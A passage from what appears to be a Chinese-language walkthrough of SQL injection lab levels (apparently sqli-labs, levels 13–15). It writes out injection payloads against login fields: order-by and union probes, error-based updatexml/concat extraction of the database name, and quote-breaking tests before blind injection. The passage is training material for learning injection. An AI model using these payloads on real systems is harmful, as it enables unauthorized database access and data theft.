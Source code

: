 获取信息：r '''') and password=('') LIMIT 0,1' 

尝试获取查询表的字段，字段还是2

```
as')order by 3 limit 0,1#
```

![image-20220921104617354](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921104617354.png)

还是可以使用查询注入

```
as')union select 1,2 limit 0,1#
```

![image-20220921114713834](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921114713834.png)

无任何回显，使用报错注入，注入成功

```
as')and updatexml(1,concat(0x7e,database(),0x7e),1) limit 0,1#
```

![image-20220921115015206](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921115015206.png)

## 第十四关

使用`"`，尝试错误

![image-20220921115328314](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921115328314.png)

尝试`""order by 5 limit 0,1%23`，无报错信息

![image-20220921115458397](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921115458397.png)

继续尝试

```
uname='&passwd="and updatexml(1,concat(0x7e,database(),0x7e),1) limit 0,1#&submit=Submit
```

注入成功

![image-20220921130002392](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921130002392.png)

## 第十五关

尝试获取报错信息，失败，无法获取任何报错信息

```
' " ') --+ %23 
```

![image-20220921130510957](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921130510957.png)

尝试进行盲注
